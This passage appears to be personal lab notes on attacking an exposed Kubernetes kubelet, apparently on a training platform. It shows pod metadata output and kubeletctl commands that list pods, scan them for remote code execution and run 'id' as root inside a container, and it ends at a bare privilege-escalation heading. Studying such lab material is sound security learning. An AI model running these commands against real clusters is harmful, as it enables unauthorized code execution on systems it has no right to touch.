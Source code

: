 ```shell-session
          "kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"nginx\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"imagePullPolicy\":\"Never\",\"name\":\"nginx\",\"ports\":[{\"containerPort\":80}]}]}}\n",
          "kubernetes.io/config.seen": "2023-07-04T06:42:02.263953266-04:00",
          "kubernetes.io/config.source": "api"
        },
        "managedFields": [
          {
            "manager": "kubectl-client-side-apply",
            "operation": "Update",
            "apiVersion": "v1",
            "time": "2023-07-04T10:42:02Z",
            "fieldsType": "FieldsV1",
            "fieldsV1": {
              "f:metadata": {
                "f:annotations": {
                  ".": {},
                  "f:kubectl.kubernetes.io/last-applied-configuration": {}
                }
              },
    
					...SNIP...
```
The information displayed in the output includes the `names`, `namespaces`, `creation timestamps`, and `container images` of the pods. It also shows the `last applied configuration` for each pod, which could contain confidential details regarding the container images and their pull policies.


`listing pods:`
```shell-session
~$ kubeletctl -i --server 10.129.10.11 pods
```
![[Pasted image 20250710150829.png]]
kubectl is very handy for us attackers, we can run `scan rce` to find any pod that is vulnerable to remote code execution
`list pods vulnerable to RCE`
```shell-session
$ kubeletctl -i --server 10.129.10.11 scan rce
```
![[Pasted image 20250710151040.png]]



We can perform remote commands as with the following syntax
`executing id on remote pod`
```shell
$ kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx

uid=0(root) gid=0(root) groups=0(root)
```

## Privilege Escalation
